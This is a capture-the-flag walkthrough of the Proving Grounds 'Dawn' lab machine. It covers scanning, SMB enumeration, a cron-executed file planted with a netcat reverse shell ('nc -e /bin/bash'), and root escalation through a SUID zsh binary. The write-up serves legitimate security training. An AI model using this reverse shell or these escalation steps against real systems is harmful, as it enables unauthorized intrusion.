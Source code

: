 # $\color{Magenta}{Proving\ Grounds\ Play:\ Dawn\ Walkthrough}$
## $\color{Magenta}{Pentest\ performed\ in\ the\ Dawn\ machine\ on\ Proving\ Grounds\ Play.}$

![image 1](https://miro.medium.com/v2/resize:fit:640/format:webp/0*NzgnefT4Xcg8Ek1a)

### $\color{Cyan}{Scanning}$
I started with the first essential step, a network scan to see the available open ports and their services. As always, I did it with **nmap.**

```nmap -sS -Sv <machine ip>```

![image 2](https://miro.medium.com/v2/resize:fit:640/format:webp/1*OL8i2ITKXvZxVhxmzv0xtg.png)

The scan shows several open ports:

- **80 (HTTP).** A website.
- **139/445 (CIFS/SMB).** Client-server protocol, a shared file system.
- **3306 (mysql).**
- Host name: **DAWN.**

### $\color{Cyan}{Enumeration}$
**1. Website Enumeration**

![image 3](https://miro.medium.com/v2/resize:fit:720/format:webp/1*rfg9FgC0V7oziZHeFg4sBw.png)

I view the source code to search for any hidden clues, like other directories, but I found nothing. So, in that moment, the only information I had was the things to implement message, indicating possible interesting features.

My next step was searching for directories with **gobuster**, to find hidden or unlisted directories or files:

```gobuster dir -u <URL> -w <path to wordlist>```

![image 4](https://miro.medium.com/v2/resize:fit:720/format:webp/1*JB3_lDhALTay3YtOXDjozg.png)

I checked the cctv directory, but I didn’t have the necessary permissions.

But the **logs directory** did show:

![image 5](https://miro.medium.com/v2/resize:fit:640/format:webp/1*gYPgiCrdLkc8BNcCtTgwGQ.png)

The only file I could visit was **management.log**, which was a configuration file with information about the machine’s cron actions. Specifically, the commands executed by this file. I need to highlight the following commands:

![image 6](https://miro.medium.com/v2/resize:fit:640/format:webp/1*2NaYXmsBvSi0FRal-UFOoA.png)

- The actions show in the photo above, where cron executes the files **product-control** and **web-control.**
- The **777 chmod command**, giving all the permissions of **product-control** and **web-control** to all the users (owner, group and others).

Therefore, the management.log indicates that the cron grants full permissions on the product-control and web-control files to then execute them. These were two key findings, because it opened a possible entry point to an exploitation.

**2. SMB Enumeration**

The next port to enumerate was the **139/445 port**, indicating the existence of a **SMB protocol.**

I executed the command **enum4linux**, which displays information about the shares and users in the shared file system:

```enum4linux <machine IP>```

![image 7](https://miro.medium.com/v2/resize:fit:720/format:webp/1*jy8ibCfXHwlw0TTHAuGiwg.png)

![image 8](https://miro.medium.com/v2/resize:fit:720/format:webp/1*s3HeCQ1P7HR0OjKhG6KJzQ.png)

The key findings were:

- Two local users: **dawn** and **ganimedes.**
- The possibility to enter a session with **no password.**
- The share **ITDEPT**, with the permissions read/write. At this point, the entry point was surely this, due to the previously seen cron actions where the executed files were in that share. It also shows the already known username dawn.

### $\color{Cyan}{Exploitation}$

The information I had at this moment was:

- Cron changes permissions and executes two files in the directory **dawn/ITDEPT.**
- A SMB protocol with the username **dawn** and a share named **ITDEPT** with write access that I could enter without a password.

The next logical step was access the **SMB** share **ITDEPT.** I used smbclient:

```smbclient //<machine IP>/ITDEPT```

![image 9](https://miro.medium.com/v2/resize:fit:640/format:webp/1*hXMXQ7N0CAQ8rNiVQ3jyHQ.png)

Using the command *“ls”* I found the share empty. To exploit the cron vulnerability seen in **management.log,** I created a file named **product-control** embedded with a reverse shell script:

```
#!/bin/bash
nc -e /bin/bash <your IP> <port>
```

With this, the cron would execute the reverse shell script in that file with root privileges, allowing me to enter the target machine.

I uploaded that file with *“put”* and listened with **netcat** on the port indicated.

```nc -lvnp 1234```

And in a minute, I was in!

![image 10](https://miro.medium.com/v2/resize:fit:640/format:webp/1*dd9LBgkgaxIjVpLuLbTj_w.png)

### $\color{Cyan}{Privilege\ escalation}$

With the command *“whoami”* I knew the user: **dawn.**

To convert the Shell to a terminal and make it more comfortable, I executed:

```python -c 'import pty; pty.spawn("/bin/bash")'```

With another *“ls -la”* command I discovered the first flag in the **local.txt.** The last step was the privilege escalation.

For that, I first executed *“sudo su”*, but I needed a password. Then I executed *“sudo -l”,* to see the command available to the user **dawn**, but I didn’t find anything useful:

![image 11](https://miro.medium.com/v2/resize:fit:720/format:webp/1*Z5JYH5TidshwTcqHT8e5Lg.png)

Lastly, I searched the binaries with the **SUID** bit active. **SUID** gives a temporary permission to the current user to run a program or a file with the owner’s permissions. So, if we execute a sudo command with that SUID bit active, we’ll get root permissions.

To search those binaries I ran the following command:

```find / -perm -u=s -type f 2>/dev/null```

In case on any doubts, I used the web **GTFOBins**, a list with all the exploitable binaries.

![image 12](https://miro.medium.com/v2/resize:fit:640/format:webp/1*tTECq7ccA_5Je168kp8-1Q.png)

Among that list and according to **GTFOBins**, the exploitable binary was zsh, another type of shell.

![image 13](https://miro.medium.com/v2/resize:fit:720/format:webp/1*TViuB4wAxPkiKdoGwPJm9g.png)

I just run zsh and I had my privileges elevated to root, confirming it with the “whoami” command.

![image 14](https://miro.medium.com/v2/resize:fit:284/format:webp/1*ttZT4CWt-vwLo4YC-4wPIg.png)

And finally, I could access the root directory and find the final flag.
